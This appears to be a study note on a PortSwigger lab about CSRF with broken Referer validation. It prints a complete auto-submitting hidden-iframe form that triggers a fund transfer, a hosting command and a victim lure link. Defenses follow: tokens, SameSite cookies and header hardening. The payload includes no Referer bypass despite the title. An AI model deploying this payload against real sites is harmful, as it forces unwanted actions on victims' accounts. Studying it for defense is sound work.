

## Lab Setup: CSRF with Broken Referer Validation

In this lab, we will simulate a CSRF attack where the web application has a broken `Referer` validation mechanism. We will craft a malicious script that automatically submits a form when the victim visits a specific URL.

### Step-by-Step Mechanics

#### Step 1: Crafting the Malicious Script

We start by creating a script that automatically submits a form. The form has an ID attribute, which we will use to reference it in our script.

```html
<script>
    // Get the CSRF form by its ID
    var csrfForm = document.getElementById('csrf-form');

    // Submit the form
    csrfForm.submit();
</script>
```

#### Step 2: Making the Form Submission Invisible

To make the form submission invisible, we will use an `<iframe>` element with `display: none;`. This way, the form submission happens in the background without the user noticing.

```html
<iframe id="csrf-iframe" name="csrf-iframe" style="display:none;"></iframe>

<form id="csrf-form" action="http://example.com/submit" method="POST" target="csrf-iframe">
    <input type="hidden" name="action" value="transfer-funds">
    <input type="hidden" name="amount" value="1000">
</form>
```

#### Step 3: Hosting the Malicious Script

We will host the malicious script on our own web server using a simple Python HTTP server.

```bash
python3 -m http.server 5555
```

This command starts a Python HTTP server on port 5555, serving files from the current directory.

#### Step 4: Sending the Malicious URL to the Victim

The final step is to send the malicious URL to the victim. When the victim clicks on the link, the malicious script is executed, and the form is submitted in the background.

```html
<a href="http://localhost:5555/CSRF.html">Click here</a>
```

### Full Example

Here is the complete HTML and JavaScript code for the malicious script:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Example</title>
</head>
<body>
    <h1>Hello World</h1>
    <iframe id="csrf-iframe" name="csrf-iframe" style="display:none;"></iframe>
    <form id="csrf-form" action="http://example.com/submit" method="POST" target="csrf-iframe">
        <input type="hidden" name="action" value="transfer-funds">
        <input type="hidden" name="amount" value="1000">
    </form>
    <script>
        // Get the CSRF form by its ID
        var csrfForm = document.getElementById('csrf-form');

        // Submit the form
        csrfForm.submit();
    </script>
</body>
</html>
```

### HTTP Request and Response

When the victim clicks on the malicious link, the following HTTP request is sent:

```http
GET /CSRF.html HTTP/1.1
Host: localhost:5555
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Referer: http://localhost:5555/
```

The server responds with the HTML content:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: SimpleHTTP/0.6 Python/3.9.1
Content-Type: text/html
Content-Length: 423
Last-Modified: Mon, 01 Jan 2024 00:00:00 GMT

<!DOCTYPE html>
<html>
<head>
    <title>CSRF Example</title>
</head>
<body>
    <h1>Hello World</h1>
    <iframe id="csrf-iframe" name="csrf-iframe" style="display:none;"></iframe>
    <form id="csrf-form" action="http://example.com/submit" method="POST" target="csrf-iframe">
        <input type="hidden" name="action" value="transfer-funds">
        <input type="hidden" name="amount" value="1000">
    </form>
    <script>
        // Get the CSRF form by its ID
        var csrfForm = document.getElementById('csrf-form');

        // Submit the form
        csrfForm.submit();
    </script>
</body>
</html>
```

### Mermaid Diagram: Attack Flow

A mermaid diagram can help visualize the attack flow:



### Common Pitfalls and Detection

#### Pitfall 1: Broken Referer Validation

If the web application relies solely on the `Referer` header to validate requests, it can be bypassed. Modern browsers allow disabling the `Referer` header, and some proxies and firewalls strip it.

#### Pitfall 2: Lack of Token Validation

Without a unique token that changes with each request, an attacker can easily craft a valid request.

#### Detection

Detection of CSRF attacks can be challenging since they often mimic legitimate user behavior. However, monitoring for unusual activity patterns, such as unexpected form submissions or API calls, can help identify potential CSRF attacks.

### How to Prevent / Defend Against CSRF

#### Prevention Techniques

1. **Use Anti-CSRF Tokens**:
   - Generate a unique token for each session and include it in forms and AJAX requests.
   - Validate the token on the server-side before processing the request.

2. **SameSite Cookies**:
   - Set the `SameSite` attribute on cookies to `Strict` or `Lax` to prevent them from being sent with cross-site requests.

3. **Double Submit Cookie Pattern**:
   - Include a random value in a cookie and also as a hidden field in the form.
   - Validate both values on the server-side.

4. **Validate Referer Header**:
   - While not foolproof, validating the `Referer` header can add an additional layer of protection.

#### Secure Coding Fixes

##### Vulnerable Code

```html
<form action="/submit" method="POST">
    <input type="hidden" name="action" value="transfer-funds">
    <input type="hidden" name="amount" value="1000">
</form>
```

##### Fixed Code

```html
<form action="/submit" method="POST">
    <input type="hidden" name="action" value="transfer-funds">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
</form>
```

```python
@app.route('/submit', methods=['POST'])
def submit():
    if request.form['csrf_token'] != session['csrf_token']:
        abort(403)
    # Process the form
```

#### Configuration Hardening

##### Nginx Configuration

```nginx
server {
    listen 80;
    server_name example.com;

    location / {
        add_header X-Frame-Options SAMEORIGIN;
        add_header X-XSS-Protection "1; mode=block";
        add_header Content-Security-Policy "frame-ancestors 'self'";
    }
}
```

##### Apache Configuration

```apache
<Directory "/var/www/html">
    Header always set X-Frame-Options "SAMEORIGIN"
    Header always set X-XSS-Protection "1; mode=block"
    Header always set Content-Security-Policy "frame-ancestors 'self'"
</Directory>
```

### Practice Labs

For hands-on practice with CSRF vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive CSRF lab with detailed explanations and challenges.
- **OWASP Juice Shop**: Contains several CSRF vulnerabilities that can be exploited and fixed.
- **DVWA (Damn Vulnerable Web Application)**: Provides a variety of CSRF vulnerabilities for testing and learning.

By thoroughly understanding and practicing these concepts, you can significantly enhance your ability to defend against CSRF attacks and ensure the security of web applications.

---
<!-- nav -->
[[05-Lab Exercise CSRF with Broken Referer Validation|Lab Exercise CSRF with Broken Referer Validation]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/07-Understanding the Lab Environment|Understanding the Lab Environment]]
